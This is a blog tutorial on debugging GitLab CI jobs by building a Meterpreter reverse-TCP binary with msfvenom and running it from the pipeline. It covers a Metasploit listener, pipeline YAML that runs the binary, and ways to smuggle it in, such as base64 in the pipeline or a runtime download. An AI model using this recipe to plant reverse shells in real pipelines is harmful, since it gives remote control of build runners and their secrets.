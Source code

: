 #+title: Debug Gitlab CI/CD pipelines with Metasploit
#+Date: 2023-07-28
#+Draft: false
#+Tags[]: devops gitlab-ci gitlab metasploit
#+PROPERTY: header-args :eval never-export

Many individuals frequently encounter difficulties when troubleshooting their
pipelines. Often, the common approach to debugging these pipelines involves
employing a trial and error methodology. However, there exists a superior
solution that is both more sophisticated and efficient.

By injecting code in between the commands which one wishes to troubleshoot, and
then having a full environment access along with the tools required to perform
tests and analysis is the ideal scenario. Considering the requirements:

  - Not always you can connect to the runner instance directly, so the runner
    has to connect to your server.
  - Runners can be executed inside a cluster (Kubernetes, Docker Swarm, AWS ECS,
    etc...), the tool and connection method must accommodate for it.
  - The injected binary must have the minimum amount of dependencies possible,
    so no further setup is required.
  - The binary must include tooling to facilitate the troubleshooting process,
    such as tools for downloading, uploading and manipulating files,
    troubleshooting network connections and connectivity issues and handling
    processes.

This is a concept which can be reused on other CI/CD tools, such as Github
Actions, Travis and Jenkins.

** Meterpreter
Meterpreter is a powerful and versatile post-exploitation tool widely used in
the field of cybersecurity. Developed as part of the Metasploit Framework,
Meterpreter is designed to provide remote access and control over compromised
systems, allowing penetration testers and security professionals to interact
with target machines seamlessly.

Meterpreter fulfill all our requirements, it operates using several connection
methods, including reverse connection, can be generated for not having any
dependencies and includes a good set of tooling which we can leverage to debug
CI/CD pipelines.

* Generate a Meterpreter payload
The very first step into this demonstration is to generate the binary payload
being used. Once Metasploit is installed, simply run:

#+begin_src bash
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > meterpreter.elf
#+end_src

To facilitate the process, on systems with a few network cards, is common for
the first one to be a =loopback= interface, the bash function below get the first
IP address after the =loopback= interface:

#+begin_src bash
function msfvenom-linux-meterpreter-default() {
    local LHOST="${1:-$(ip addr show | grep -o "inet [0-9]*\.[0-9]*\.[0-9]*\.[0-9]*" | grep -o "[0-9]*\.[0-9]*\.[0-9]*\.[0-9]*" | head -2 | tail -1)}"
    local LPORT="${2:-4444}"
    echo "[+] Creating a reverse connect meterpreter payload for ${LHOST}:${LPORT}"
    msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=${LHOST} LPORT=${LPORT} -f elf > meterpreter.elf
    echo "[+] Result saved to meterpreter.elf"
}
#+end_src

Nothing more than this is required to create a Meterpreter binary. If you run
the function =msfvenom-linux-meterpreter-default= without any parameter, the first
network interface after =loopback= will be used, or you can specify as the first
parameter, the IP address which the meterpreter payload will use. The second
parameter is the port to which it will connect to, the default is =4444= in case
no port is set.

We can easily check if the resulting binary is statically linked:

#+begin_src bash :results verbatim
ldd ../../meterprefer.elf
#+end_src

#+RESULTS:
: 	statically linked

Other networking aspects should also be taken into consideration, in case you
are behind a firewall, opening the respective ports and configuring the proper
forward is required. If you are using =Nixos= you will need to setup your local
firewall as such:

#+begin_src nix
networking.firewall = {
  enable = true;
  allowedTCPPorts = [ 4444 ];
};
#+end_src

** Serving the binary
There are three main ways in which the binary can be injected into the CI/CD
pipeline:
- Add it directly to the git, commit and push it.
- Encode it with base64 and inject it into the pipeline definition, and during
  runtime convert it to a binary.
- Serve it over the network and download it as a step on the pipeline.

For the sake of simplicity, we will follow up with adding it to the repository
as a binary file.

* Executing
Before moving forward with the pipeline, the next step is to setup Metasploit
and listen for the connection from the binary. Start =msfconsole= on your platform
and use the following commands, adjust them based on the arguments used when
creating the binary:

#+begin_src
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.15.22
LHOST => 192.168.15.22
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) >
[*] Started reverse TCP handler on 192.168.15.22:4444
#+end_src

* Gitlab runner job definition
For the exemplification of this technique, a simple pipeline like the one below
can be used to attest the functionality and capabilities described on this
document. Add the following file to your repository, commit and push it.

#+begin_src yaml
stages:
  - run

Run:
  stage: run
  script:
    - chmod +x meterpreter.elf
    - ./meterpreter.elf
#+end_src

If =CI/CD= is not being shown on the left menu, select =Settings > General=, on this
page expand =Visibility, project features, permissions=, in the =Repository=
section, turn on =CI/CD=, select Save changes. On real pipelines you may be
interested in using =before_script= to execute the injected binary:

#+begin_src yaml
.start_debug_session:
  before_script:
    - chmod +x meterpreter.elf
    - ./meterpreter.elf

my_failing_job:
  extends: .start_debug_session
  script:
    - pytest

#+end_src

* Shell
After puting all the pieces together and triggering the pipeline, you should be
presented with similar messages on your Metasploit terminal.

#+begin_example
[*] Meterpreter session 1 opened (192.168.15.22:4444 -> 192.168.15.22:33800) at 2023-07-28 23:46:41 +0200

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         meterpreter x64/linux  rafael @ localhost  192.168.15.22:4444 -> 192.168.15.22:33800 (192.16
                                                            8.15.22)
#+end_example

You can use =sessions -i= to interact with a connection, and =Ctrl+Z= to stop
interacting with it without killing it. Once the connection is in place, you
have a full shell, along with a lot of other useful commands which you can use
to debug your pipelines:

#+begin_example
meterpreter > ls
Listing: /var/lib/private/gitlab-runner/builds/s5L862kM/0/rafael/test-debug-gitlab
===============================================================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040755/rwxr-xr-x  86       dir   2023-07-29 02:26:42 +0200  .git
100644/rw-r--r--  130      fil   2023-07-29 02:26:41 +0200  .gitlab-ci.yml
100644/rw-r--r--  6225     fil   2023-07-29 02:25:31 +0200  README.md
100755/rwxr-xr-x  1038520  fil   2023-07-29 02:26:15 +0200  meterpreter.elf
#+end_example

** System commands
#+begin_example
Command       Description
-------       -----------
execute       Execute a command
getenv        Get one or more environment variable values
getpid        Get the current process identifier
getuid        Get the user that the server is running as
kill          Terminate a process
localtime     Displays the target system local date and time
pgrep         Filter processes by name
pkill         Terminate processes by name
ps            List running processes
shell         Drop into a system command shell
suspend       Suspends or resumes a list of processes
sysinfo       Gets information about the remote system, such as OS
#+end_example
** File commands
#+begin_example
Command       Description
-------       -----------
cat           Read the contents of a file to the screen
cd            Change directory
checksum      Retrieve the checksum of a file
chmod         Change the permissions of a file
cp            Copy source to destination
del           Delete the specified file
dir           List files (alias for ls)
download      Download a file or directory
edit          Edit a file
getlwd        Print local working directory
getwd         Print working directory
lcat          Read the contents of a local file to the screen
lcd           Change local working directory
lls           List local files
lpwd          Print local working directory
ls            List files
mkdir         Make directory
mv            Move source to destination
pwd           Print working directory
rm            Delete the specified file
rmdir         Remove directory
search        Search for files
upload        Upload a file or directory
#+end_example
** Networking commands

#+begin_example
Command       Description
-------       -----------
arp           Display the host ARP cache
getproxy      Display the current proxy configuration
ifconfig      Display interfaces
ipconfig      Display interfaces
netstat       Display the network connections
portfwd       Forward a local port to a remote service
resolve       Resolve a set of host names on the target
route         View and modify the routing table
#+end_example

* References
- [[https://docs.gitlab.com/ee/ci/yaml/][Gitlab CI reference]]
